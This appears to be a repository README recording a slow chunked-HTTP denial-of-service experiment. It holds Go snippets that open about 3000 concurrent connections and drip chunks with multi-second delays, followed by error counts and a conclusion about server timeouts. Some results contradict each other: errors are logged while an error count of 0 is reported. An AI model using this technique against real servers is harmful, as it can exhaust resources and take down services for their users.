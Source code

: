 # Anti-ddos attack

Created with [ProshNad](https://github.com/ProshNad)

## Main idea
Send chunked requests with some timeout. Will connection be closed or not? If not, we will try to create 3000+ clients and start sending them those requests

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

All chunks will be sent with timeout between them

## Results

### Send 1 chunked request with timeout between chunks

```go
con, closeFunc := newConn()
defer closeFunc()

_, err := sendChunkedRequest(con, i, time.Second*1)
if err != nil {
    log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
}
```
Successfully sent

### Send 3000 parallel requests with 2seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

```shell
total errCount 0
total goodCount 2999
```

Try to set timeout between creating clients

### Send 3000 parallel requests with 10milliseconds timeout between creating clients

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
	
	time.Sleep(time.Millisecond*10)
}
```

```shell
total errCount 0
total goodCount 2999
```

### Send 3000 parallel requests with 10milliseconds timeout between creating clients and 10 seconds between chunks
```shell
total errCount 0
total goodCount 2999
```

Let's try to modify our message: we duplicate it.

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
	"POST / HTTP/1.1\r\n" +
	"Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

### Send 3000 parallel 2x-requests with 2seconds timeout between chunks 

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

Results
```shell
total errCount 856
total goodCount 2141
```

### Send 3000 parallel 2x-requests with 5seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*5)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```

Results
```shell
total errCount 2756
total goodCount 234
```

Error count was increased.

### Send 3000 parallel 2x-requests with 10seconds timeout between chunks

Results
```shell
total errCount 2999
total goodCount 0
```

## Conclusion
It seems that the server has timeout for getting full chunked request. With timeout increasing between chunks errors count are increasing. Different results in the same test mean that by means of asynchrony, some requests are executed quickly, and some are longer than expected. therefore, some fall under the time limit, while others do not. As the timeout increases, there are more and more errors.
